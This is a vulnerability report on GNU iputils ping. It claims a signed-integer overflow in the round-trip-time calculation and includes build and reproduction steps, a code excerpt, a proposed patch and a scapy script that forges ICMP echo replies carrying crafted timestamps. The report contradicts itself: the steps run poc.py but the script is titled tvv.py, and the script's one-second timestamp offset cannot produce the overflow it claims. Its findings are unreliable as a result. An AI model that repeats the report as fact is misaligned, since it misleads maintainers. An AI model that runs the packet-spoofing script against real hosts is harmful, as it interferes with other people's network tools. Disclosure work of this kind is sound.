 
# ping\_rtt overflow

## Summary

A crafted ICMP Echo Reply can trigger a signed 64-bit integer overflow in GNU `ping`’s RTT calculation. By forging the timestamp field in the ICMP payload to be sufficiently large, the multiplication of seconds by 1,000,000 exceeds the signed `long` range, causing undefined behavior. Under AddressSanitizer (ASan), this is detected as a runtime error. In production builds it wraps silently and clamps to zero, resulting in repeated zero-RTT readings.

## Affected Versions

* iputils `ping` from the current `master` branch: [https://github.com/iputils/iputils/tree/master](https://github.com/iputils/iputils/tree/master)
* Ubuntu package version: `iputils-ping 3:20240117-1build1`

## Environment

* Distribution: Ubuntu 24.04.1 LTS (Noble Numbat)
* Kernel: 5.15.167.4-microsoft-standard-WSL2
* Architecture: x86\_64

## Steps to Reproduce

1. Check out the `master` branch of iputils and build with ASan:

   ```sh
   git clone https://github.com/iputils/iputils.git
   cd iputils
   mkdir builddir-asan && cd builddir-asan
   meson .. -Denable-sanitizers=true
   ninja
   ```
2. In one terminal, start the PoC listener script (`poc.py`):

   ```sh
   sudo ./poc.py
   ```
3. In another terminal, run ping:

   ```sh
   sudo ./ping/ping -R -s 64 127.0.0.1
   ```
4. Observe signed-integer-overflow errors from ASan:

   ```
   ../ping_common.c:757: runtime error: signed integer overflow
   ```
5. Without sanitizers, observe `time=0.000 ms` on every reply despite real latency and truncated/duplicate replies.

## Root Cause Analysis

In `ping_common.c`, the code does:

```c
/* normalize recv_time - send_time */
tvsub(&tv, &tmp_tv);
/* compute microseconds */
triptime = tv.tv_sec * 1000000 + tv.tv_usec;
```

Because `tv.tv_sec` is a signed 64-bit `long` and attacker controls it via the ICMP payload, multiplying by 1,000,000 can exceed `LONG_MAX`, causing signed overflow (CWE-190). The code does not check for overflow before or after the multiplication.

## Proposed Fix

Modify the RTT computation to use a 128-bit intermediate and clamp:

```diff
--- a/ping_common.c
+++ b/ping_common.c
@@ gather_statistics() {
-    triptime = tv.tv_sec * 1000000 + tv.tv_usec;
+    __int128 delta = (__int128)tv.tv_sec * 1000000 + tv.tv_usec;
+    if (delta < 0) {
+        triptime = 0;
+    } else if (delta > LLONG_MAX) {
+        triptime = LONG_MAX;
+    } else {
+        triptime = (long)delta;
+    }
```

## PoC Script (`tvv.py`)

```python
#!/usr/bin/env python3
from scapy.all import IP, ICMP, Raw, send, sniff, bind_layers
import time, struct, sys, os

LISTEN_INTERFACE = "lo"
TARGET_IP = "127.0.0.1"
FUTURE_OFFSET_SEC = 1.0

bind_layers(ICMP, Raw)

def process_packet(pkt):
    if not (pkt.haslayer(IP) and pkt.haslayer(ICMP)):
        return
    ip = pkt[IP]
    ic = pkt[ICMP]
    if ic.type != 8:
        return

    fut = time.time() + FUTURE_OFFSET_SEC
    sec = int(fut)
    usec = int((fut - sec) * 1_000_000)

    data = struct.pack('=ll', sec, usec)
    data += b'Z'*20   # padding to force full timeval read and overflow

    reply = (
        IP(src=ip.dst, dst=ip.src) /
        ICMP(type=0, code=0, id=ic.id, seq=ic.seq) /
        Raw(load=data)
    )

    print(f"sending id={ic.id} seq={ic.seq} sec={sec} usec={usec} len={len(data)}")
    send(reply, iface=LISTEN_INTERFACE, verbose=False)


def main():
    if os.geteuid() != 0:
        sys.exit("need root")
    filt = f"icmp and icmp[icmptype] = icmp-echo and host {TARGET_IP}"
    print(f"listening on {LISTEN_INTERFACE} for {TARGET_IP}")
    sniff(iface=LISTEN_INTERFACE, filter=filt, prn=process_packet, store=0)

if __name__=='__main__':
    main()
```

----
```
Signed-off-by: Mohamed Maatallah <hotelsmaatallahrecemail@gmail.com>
```
